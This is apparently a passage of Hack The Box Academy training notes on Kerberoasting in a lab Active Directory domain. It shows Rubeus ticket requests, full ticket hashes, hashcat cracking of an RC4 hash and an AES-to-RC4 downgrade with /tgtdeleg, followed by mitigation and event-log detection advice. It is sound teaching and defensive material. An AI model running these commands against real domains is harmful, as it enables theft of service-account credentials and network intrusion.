Start by creating an SPN account named ```testspn``` and using Rubeus to Kerberoast this specific user to test this out.

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : testspn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=testspn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : testspn
[*] DistinguishedName      : CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : testspn/kerberoast.inlanefreight.local
[*] PwdLastSet             : 2/27/2022 12:15:43 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*testspn$INLANEFREIGHT.LOCAL$testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$CEA71B221FC2C00F8886261660536CC1$4A8E252D305475EB9410FF3E1E99517F90E27FB588173ACE3651DEACCDEC62165DE6EA1E6337F3640632FA42419A535B501ED1D4D1A0B704AA2C56880D74C2940170DC0747CE4D05B420D76BF298226AADB53F2AA048BE813B5F0CA7A85A9BB8C7F70F16F746807D3B84AA8FE91B8C38AF75FB9DA49ED133168760D004781963DB257C2339FD82B95C5E1F8F8C4BD03A9FA12E87E278915A8362DA835B9A746082368A155EBB5EFB141DC58F2E46B7545F82278AF4214E1979B35971795A3C4653764F08C1E2A4A1EDA04B1526079E6423C34F88BDF6FA2477D28C71C5A55FA7E1EA86D93565508081E1946D796C0B3E6666259FEB53804B8716D6D076656BA9D392CB747AD3FB572D7CE130940C7A6415ADDB510E2726B3ACFA485DF5B7CE6769EEEF08FE7290539830F6DA25C359894E85A1BCFB7E0B03852C7578CB52E753A23BE59AB9D1626091376BA474E4BAFAF6EBDD852B1854FF46AA6CD1F7F044A90C9497BB60951C4E82033406ACC9B4BED7A1C1AFEF41316A58487AFEA4D5C07940C87367A39E66415D9A54B1A88DADE1D4A0D13ED9E474BDA5A865200E8F111996B846E4E64F38482CEE8BE4FC2DC1952BFFBD221D7284EFF27327C0764DF4CF68065385D31866DA1BB1A189E9F82C46316095129F06B3679EE1754E9FD599EB9FE96C10315F6C45300ECCBEB6DC83A92F6C08937A244C458DB69B80CE85F0101177E6AC049C9F11701E928685F41E850CA62F047B175ADCA78DCA2171429028CD1B4FFABE2949133A32FB6A6DC9E0477D5D994F3B3E7251FA8F3DA34C58FAAE20FC6BF94CC9C10327984475D7EABE9242D3F66F81CFA90286B2BA261EBF703ADFDF7079B340D9F3B9B17173EBA3624D9B458A5BD1CB7AF06749FF3DB312BCE9D93CD9F34F3FE913400655B4B6F7E7539399A2AFA45BD60427EA7958AB6128788A8C0588023DDD9CAA4D35459E9DEE986FD178EB14C2B8300C80931624044C3666669A68A665A72A1E3ABC73E7CB40F6F46245B206777EE1EF43B3625C9F33E45807360998B7694DC2C70ED47B45172FA3160FFABAA317A203660F26C2835510787FD591E2C1E8D0B0E775FC54E44A5C8E5FD1123FBEDB463DAFDFE6A2632773C3A1652970B491EC7744757872C1DDC22BAA7B4723FEC91C154B0B4262637518D264ADB691B7479C556F1D10CAF53CB7C5606797F0E00B759FCA56797AAA6D259A47FCCAA632238A4553DC847E0A707216F0AE9FF5E2B4692951DA4442DF86CD7B10A65B786FE3BFC658CC82B47D9C256592942343D05A6F06D250265E6CB917544F7C87645FEEFA54545FEC478ADA01B8E7FB6480DE7178016C9DC8B7E1CE08D8FA7178D33E137A8C076D097C1C29250673D28CA7063C68D592C30DCEB94B1D93CD9F18A2544FFCC07470F822E783E5916EAF251DFA9726AAB0ABAC6B1EB2C3BF6DBE4C4F3DE484A9B0E06FF641B829B651DD2AB6F6CA145399120E1464BEA80DC3608B6C8C14F244CBAA083443EB59D9EF3599FCA72C6997C824B87CF7F7EF6621B3EAA5AA0119177FC480A20B82203081609E42748920274FEBB94C3826D57C78AD93F04400DC9626CF978225C51A889224E3ED9E3BFDF6A4D6998C16D414947F9E157CB1594B268BE470D6FB489C2C6C56D2AD564959C5
```

Checking with PowerView, you can see that the ```msDS-SupportedEncryptionTypes``` attribute is set to 0. The chart here tells you that a decimal value of 0 means that a specific encryption type is not defined and set to the default of ```RC4_HMAC_MD5```.

```powershell
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            0 testspn
```

Now you can crack the hash:

```bash
d41y@htb[/htb]$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...

<SNIP>64bea80dc3608b6c8c14f244cbaa083443eb59d9ef3599fca72c6997c824b87cf7f7ef6621b3eaa5aa0119177fc480a20b82203081609e42748920274febb94c3826d57c78ad93f04400dc9626cf978225c51a889224e3ed9e3bfdf6a4d6998c16d414947f9e157cb1594b268be470d6fb489c2c6c56d2ad564959c5:welcome1$
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*testspn$INLANEFREIGHT.LOCAL$testspn/ke...4959c5
Time.Started.....: Sun Feb 27 15:36:58 2022 (4 secs)
Time.Estimated...: Sun Feb 27 15:37:02 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   693.3 kH/s (5.41ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2789376/14344385 (19.45%)
Rejected.........: 0/2789376 (0.00%)
Restore.Point....: 2777088/14344385 (19.36%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: westham76 -> wejustare

Started: Sun Feb 27 15:36:57 2022
Stopped: Sun Feb 27 15:37:04 2022
```

Assuming that your client has set SPN accounts to support AES-128/AES-256 encryption.



If you check this with PowerView, you'll see that the ```msDS-SupportedEncryptionTypes``` attribute is set to 24, meaning that AES-128/AES-256 encryption types are the only ones supported.

```powershell
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            24 testspn
```

Requesting a new ticket with Rubeus will show you that the account name is using AES-256 encryption.

```powershell
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : testspn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=testspn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : testspn
[*] DistinguishedName      : CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : testspn/kerberoast.inlanefreight.local
[*] PwdLastSet             : 2/27/2022 12:15:43 PM
[*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$8939F8C5B97A4CAA170AD706$84B0DD2C5A931E123918FFD64561BFE651F89F079A47053814244C0ECDF15DF136E5787FAC4341A1BDF6D5077EAF155A75ACF0127A167ABE4B2324C492ED1AF4C71FF8D51927B23656FCDE36C9A7AC3467E4DB6B7DC261310ED05FB7C73089763558DE53827C545FB93D25FF00B5D89FCBC3BBC6DDE9324093A3AADBE2C6FE21CFB5AFBA9DCC5D395A97768348ECCF6863EFFB4E708A1B55759095CCA98DE7DE0F7C149357365FBA1B73FCC40E2889EA75B9D90B21F121B5788E27F2FC8E5E35828A456E8AF0961435D62B14BADABD85D4103CC071A07C6F6080C0430509F8C4CDAEE95F6BCC1E3618F2FA054AF97D9ED04B47DABA316DAE09541AC8E45D739E76246769E75B4AA742F0558C66E74D142A98E1592D9E48CA727384EC9C3E8B7489D13FB1FDB817B3D553C9C00FA2AC399BB2501C2D79FBF3AF156528D4BECD6FF03267FB6E96E56F013757961F6E43838054F35AE5A1B413F610AC1474A57DE8A8ED9BF5DE9706CCDAD97C18E310EBD92E1C6CD5A3DE7518A33FADB37AE6672D15DACFE44208BAC2EABB729C24A193602C3739E2C21FB606D1337E1599233794674608FECE1C92142723DFAD238C9E1CB0091519F68242FBCC75635146605FDAD6B85103B3AFA8571D3727F11F05896103CB65A8DDE6EB29DABB0031DCF03E4B6D6F7D10E85E02A55A80CD8C93E6C8C3ED9F8A981BBEA01ABDEB306078973FE35107A297AF3985CF12661C2B8614D136B4AF196D27396C21859F40348639CD1503F517D141E2E20BB5F78818A1A46A0F63DD00FEF2C1785672B4308AE1C83ECD0125F30A2708A273B8CC43D6E386F3E1A520E349273B564E156D8EE7601A85D93CF20F20A21F0CF467DC0466EE458352698B6F67BAA9D65207B87F5E6F61FF3623D46A1911342C0D80D7896773105FEC33E5C15DB1FF46F81895E32460EEA32F423395B60582571551FF74D1516DDA3C3EBAE87E92F20AC9799BED20BF75F462F3B7D56DA6A6964B7A202FE69D9ED62E9CB115E5B0A50D5BBF2FD6A22086D6B720E1589C41FABFA4B2CD6F0EFFC9510EC10E3D4A2BEE80E817529483D81BE11DA81BBB5845FEC16801455B234B796728A296C65EE1077ABCF67A48B96C4BD3C90519DA6FF54049DE0BD72787F428E8707A5A46063CE57E890FC22687C4A1CF6BA30A0CA4AB97E22C92A095140E37917C944EDCB64535166A5FA313CEF6EEB5295F9B8872D398973362F218DF39B55979BDD1DAD5EC8D7C4F6D5E1BD09D87917B4562641258D1DFE0003D2CC5E7BCA5A0FC1FEC2398B1FE28079309BEC04AB32D61C00781C92623CA2D638D1923B3A94F811641E144E17E9E3FFB80C14F5DD1CBAB7A9B53FB5895DFC70A32C65A9996FB9752B147AFB9B1DFCBECA37244A88CCBD36FB1BF38822E42C7B56BB9752A30D6C8198B6D64FD08A2B5967414320D532F0404B3920A5F94352F85205155A7FA7EB6BE5D3A6D730318FE0BF60187A23FF24A84C18E8FC62DF6962D91D2A9A0F380987D727090949FEC4ADC0EF29C7436034A0B9D91BA36CC1D4C457392F388AB17E646418BA9D2C736B0E890CF20D425F6D125EDD9EFCA0C3DA5A6E203D65C8868EE3EC87B853398F77B91DDCF66BD942EC17CF98B6F9A81389489FCB60349163E10196843F43037E79E10794AC70F88225EDED2D51D26413D53
```

To run this through Hashcat, you need to use hash mode 19700, which is Kerberos 5, etype 18, TGS-REP (_AES256-CTS-HMAC-SHA1-96_).

```bash
d41y@htb[/htb]$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 

hashcat (v6.1.1) starting...

<SNIP>

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Name........: Kerberos 5, etype 18, TGS-REP
Hash.Target......: $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$8939f8c5b97...413d53
Time.Started.....: Sun Feb 27 16:07:50 2022 (57 secs)
Time.Estimated...: Sun Feb 27 16:31:06 2022 (22 mins, 19 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10277 H/s (8.99ms) @ Accel:1024 Loops:64 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests
Progress.........: 583680/14344385 (4.07%)
Rejected.........: 0/583680 (0.00%)
Restore.Point....: 583680/14344385 (4.07%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3264-3328
Candidates.#1....: skitzy -> sammy<3

[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit =>
```

You can use Rubeus with the ```/tgtdeleg``` flag to specify that you want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm you support in the body of the TGS request. This may be a failsafe built-in AD for backward compatibility. By using this flag, you can request an RC4 encrypted ticket that can be cracked much faster.



In the above image, you can see that when supplying the ```tgtdeleg``` flag, the tool requested an RC4 ticket even though the supported encryption types are listed as AES-128/AES-256. This simple example shows the importance of detailed enumeration and digging deeper when performing attacks such as Kerberoasting. Here you could downgrade from AES to RC4 and cut cracking time down by over 4 minutes.

It is possible to edit the encryption types used in Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: ```Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options```, then double-clicking on ```Network security: Configure encryption types allowed for Kerberos``` and selecting the desired encryption type allowed for Kerberos. Removing all other encryption types except for RC4_HMAC_MD5 would allow for the above downgrade example to occur in 2019. Removing support for AES would introduce a security flaw into AD and should likely never be done. Furthermore, removing support for RC4 regardless of the DC Windows Server version or domain functional level could have operational impacts and should be thoroughly tested before implementation.

## Mitigation & Detection

An important mitigation for non-managed service accounts is to set long and complex passwords or passphrase that does not appear in any word list and would take far too long to crack. However, it is recommended to use Managed Service Accounts (_MSA_), and Group Managed Service Accounts (_gMSA_), which use very complex passwords, and automatically rotate on a set interval or accounts set up with LAPS.

Kerberoasting requests Kerberos TGS tickets with RC4 encryption, which should not be the majority of Kerberos activity within a domain. When Kerberoasting is occuring in the environment, you will see an abnormal number of TGS-REQ and TGS-REP requests and responses, signalling the use of automated Kerberoasting tools. DCs can be configured to log Kerberos TGS ticket requests by selecting Audit Kerberos Service Ticket Operations within Group Policy.



Doing so will generate two separate event IDs: 4769: "A Kerberos service ticket was requested", and 4770: "A Kerberos service ticket was renewed". 10-20 Kerberos TGS requests for a given account can be considered normal in a given environment. A large amount of 4769 event IDs from one account within a short time period may indicate an attack.

Below you can see an example of a Kerberoasting attack being logged. You may see event ID 4769 being logged in succession, which appears to be anomalous behavior. Clicking into one, you can that a Kerberos service ticket was requested by the htb-student user for the sqldev account. You can also see that the ticket encryption type is 0x17, which is the hex value for 23, meaning that the requested ticket was RC4, so if the password was weak, there is a good chance that the attacker would be able to crack it and gain control of the sqldev account.



Some other remediation steps include restricting the use of the RC4 algorithm, particularly for Kerberos requests by service accounts. This must be tested to make sure nothing breaks within the environment. Furthermore, Domain Admins and other highly privileged accounts should not be used as SPN accounts.